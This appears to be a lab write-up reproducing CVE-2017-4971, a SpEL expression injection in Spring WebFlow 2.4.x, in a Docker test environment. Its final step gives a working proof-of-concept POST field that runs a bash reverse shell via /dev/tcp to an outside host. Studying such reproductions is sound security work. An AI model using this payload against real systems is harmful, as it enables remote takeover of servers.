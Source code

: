 # Spring WebFlow Remote Code Execution Vulnerability (CVE-2017-4971)

Spring WebFlow is a framework for developing process-based applications (such as shopping logic) that separates the definition of a process from the classes and views that implement process behavior. In its 2.4.x version, if we control the field when the data is bound, it will cause a SpEL expression injection vulnerability, which will eventually cause arbitrary command execution.

Reference link:

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## test environment

Run the test environment:

```
Docker-compose up -d
```

After waiting for the environment to start, visit `http://your-ip:8080` and you will see a hotel reservation page, which is a simple example given by spring-webflow.

## Vulnerability recurrence

First visit `http://your-ip:8080/login` and log in to the system with any account/password given on the left side of the page:

![](1.png)

Then visit the hotel `http://your-ip:8080/hotels/1` with id 1, click the reservation button "Book Hotel", fill in the relevant information and click on "Process" (from this step, in fact, WebFlow officially started. ):

![](2.png)

Click again to confirm "Confirm":

![](3.png)

At this point, grab the packet and grab a POST packet. We add a field to it (that is, the POC that bounces the shell):

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

![](4.png)

(Note: don't forget the URL encoding)

Successful execution, get the shell:

![](5.png)